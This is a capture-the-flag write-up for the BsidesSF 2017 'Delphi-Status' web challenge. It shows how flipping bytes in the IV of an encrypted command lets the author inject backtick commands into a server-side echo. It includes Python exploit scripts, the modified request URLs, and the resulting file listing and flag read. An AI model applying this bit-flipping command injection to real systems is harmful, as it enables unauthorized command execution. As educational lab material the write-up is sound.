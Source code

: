 # BsidesSF 2017 - Delphi-Status (web, 250 pts)

Although it was in the web category, it was more of a crypto challenge. It's a web app that allows you to click links which are obvisouly running system commands:

![N|Solid](https://i.imgur.com/skpPMdC.png)

The vulnerability can be exploited like a classic padding oracle. However, team [TheGoonies](https://thegoonies.rocks) took another approach to solve it.

When clicking on the "echo something" link, the requests looks like the following:
```
GET /execute/dc929db8d583f79becbfe00f6fe17e3680aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949
```
Which returns: **This is a longer string that I want to use to test multiple-block patterns**

We quickly determine that the length of the ciphertext in the request equals exactly 7 blocks of 16 bytes.However the command line `echo "the_text"` is only 81 bytes, so the IV must be preprended to the command. What happens if we modify some of the first 16 bytes? We would modify the IV without breaking the actual decryption. For example, let's try and change the 9th byte. This should correspond to the letter `i` in `echo "This is...`. So we will change \xec to \x00:

```
GET /execute/dc929db8d583f79b00bfe00f6fe17e3680aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949
```
That returns: **Th\x85s is a longer string that I want to use to test multiple-block patterns**

What does it tell us? That if we want to include an arbitrary character X in the decrypted text, we just have to XOR X with \x85! Let's confirm that by trying to include the letter 'A' in the output text. We will change the 8th byte to `\x41 ^ \x85` (\xc4):

```
GET /execute/dc929db8d583f79bc4bfe00f6fe17e3680aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949
```
Response: **ThAs is a longer string that I want to use to test multiple-block patterns**

We're on track! So let's repeat that process for a length of 8 bytes (bytes 9 to 16). We use the simple script below, but it's easily done manually.

```python
block_1 = 'dc929db8d583f79b'
block_2 = '00' * 8
other_blocks = '80aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949'
res = requests.get('http://delphi-status-e606c556.ctf.bsidessf.net/execute/%s' % block_1 + block_2 + other_blocks).content

decrypted_block = res[7:15]
sys.stdout.write(decrypted_block)
```
```
$ python script.py  | xxd
00000000: 85cc c066 1cc1 1f16
```

So we know that the decrypted block when xored with zeros is `\x85\xcc\xc0\x66\x1c\xc1\x1f\x16`, which mean we can control 8 bytes of decrypted text. Lucky for us, it's enough to create a payload that will let us execute commands! we can use the back ticks to escape from the `echo` and run arbitrary commands. Finally, we can solve the challenge like this:

```python
# Note: the argument must be exacly 6 bytes, + 2 backticks
assert len(sys.argv[1]) == 6
payload = '`%s`' % sys.argv[1]
decrypted_block = '\x85\xcc\xc0\x66\x1c\xc1\x1f\x16'

block_1 = 'dc929db8d583f79b'
other_blocks = '80aef7b95a28afa7b314966442373f32f0da179bd12f5f676a5c896bda6f4673fb23f86d2efcb65ebd4892d7ba2b243cfecff573589ebf4ea3cec3f039c6c4a0595912c953a4f8e517c667eaba67800b914db22da7aae0c1cacf22790ed03949'

x = xor(decrypted_block, payload).encode('hex')
print requests.get('http://delphi-status-e606c556.ctf.bsidessf.net/execute/%s' % block_1 + x + other_blocks).content
```
File listing:
```
$ python script.py "ls  -l"
<pre>Thtotal 16
-rw-r--r-- 4 root root   71 Feb 12 03:11 Gemfile
-rw-r--r-- 4 root root  329 Feb 12 03:11 Gemfile.lock
-rw-r--r-- 4 root root 1746 Feb 12 03:11 app.rb
-rw-r--r-- 4 root root   38 Feb 12 03:11 flag.txtlonger string that I want to use to test multiple-block patterns
</pre>
```
Get the flag:
```
$ python script.py "cat f*"
<pre>ThFLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3longer string that I want to use to test multiple-block patterns
</pre>
```
